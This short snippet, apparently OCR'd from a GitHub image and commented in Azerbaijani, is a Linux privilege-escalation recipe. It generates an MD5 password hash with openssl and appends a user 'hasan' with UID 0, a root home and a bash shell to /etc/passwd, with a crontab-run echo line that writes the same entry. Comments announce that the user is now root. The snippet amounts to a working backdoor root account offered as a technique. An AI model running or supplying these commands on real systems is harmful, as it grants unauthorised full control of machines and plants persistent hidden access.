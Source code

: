     nano  /etc/passwd  
 ## hissesine elave etsen sen hemise root kimi usere daxil olacaqsan 
      openssl passwd -1  -salt hasan
   ## parol 123
       nano /etc/passwd
       
    hasan:$1$hasan$BUMdh4tI4WdCuFkBJI64T/:0:0:root:/root:/bin/bash
   
 


  
   ## sen artiq ROOT'SAN
# this is running in like crontabs
echo "hasan:$1$hasan$BUMdh4tI4WdCuFkBJI64T/:0:0:root:/root:/bin/bash
" >> /etc/passwd
